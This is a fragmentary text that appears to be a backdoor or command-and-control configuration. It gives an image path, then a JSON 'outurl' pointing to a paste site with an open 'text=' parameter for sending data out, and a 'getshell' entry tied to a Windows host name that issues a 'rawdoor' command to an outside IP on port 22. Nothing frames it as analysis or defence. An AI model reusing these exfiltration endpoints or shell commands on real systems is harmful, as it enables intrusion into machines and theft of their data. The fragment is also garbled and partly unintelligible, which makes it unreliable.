 {
"all":{"outurl":"http://kl1p.com/nxZg?save=true&id=160399&type=code&name=nxZg&nid=&param=text%2Fplain&client=web&text="}
}
{"WIN-6SGUALVANS4":{"getshell":"?rawdoor r t 102.11.222.21 22~open"}}
